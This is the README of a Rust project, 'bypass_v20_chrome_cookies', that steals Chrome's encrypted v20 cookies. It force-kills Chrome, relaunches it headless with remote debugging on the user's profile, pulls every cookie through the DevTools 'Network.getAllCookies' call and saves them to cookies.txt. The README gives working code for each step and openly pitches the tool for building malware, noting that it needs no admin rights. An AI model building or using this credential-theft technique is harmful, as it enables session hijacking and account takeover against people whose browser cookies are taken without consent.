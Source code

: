 ## bypass_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**
No **admin rights are required** to run the binary. So this can be interesting for creating **malware**. 

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Checks if the program ```'chrome.exe'``` is running**: If it does, it closes it automatically.
```rust
fn verify_chrome() {
    let verify_chrome = Command::new("cmd.exe")
            .arg("/C")
            .arg("tasklist")
            .output()
            .unwrap();

    let result1 = String::from_utf8_lossy(&verify_chrome.stdout);

    if result1.contains("chrome.exe") {
        let _ = Command::new("taskkill")
                .arg("/F")
                .arg("/IM")
                .arg("chrome.exe")
                .output()
                .unwrap();


        thread::sleep(Duration::from_secs(2)); 
    }
}
```

- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Get the value of ```webSocketDebuggerUrl```**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

- **Connects to websocket and Send datas to retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

- **Store Cookies**: Write the retrieved cookies to ```cookies.txt```

- **Clean Up**: Terminate the Chrome process to clean up resources.
```rust
let _ = Command::new("taskkill")
            .arg("/F")
            .arg("/IM")
            .arg("chrome.exe")
            .output()
            .unwrap();
```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/bypass_v20_chrome_cookies
cd bypass_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

## 🎉 Acknowledgments
- Inspired by various open-source **Chrome cookie** retrieval projects.

